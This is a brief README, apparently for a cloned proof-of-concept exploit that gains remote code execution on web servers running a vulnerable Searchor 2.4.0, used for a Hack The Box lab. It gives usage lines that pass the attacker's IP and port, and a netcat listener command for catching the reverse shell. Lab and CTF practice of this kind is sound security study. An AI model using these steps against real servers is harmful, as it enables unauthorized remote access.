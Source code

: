 
---
Disclaimer 
---

- `The exploit code is clone from https://github.com/twisted007/Searchor_2.4.0_Python.`
- `I used this exploit code only for solving HTB lab machine.`


--- 
Origin README CONTENT 
---
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

Usage example: 
 -  `python3 searchor_2.4.0_RCE.py <HOSTNAME> <ATK_IP> <ATK_PORT>`
 -  `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
It is recommended to use the following when preparing to catch the reverse shell:
 -  `rlwrap nc -lvnp <ATK_PORT>` 

Additional details about the vulnerability can be found in the official issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).


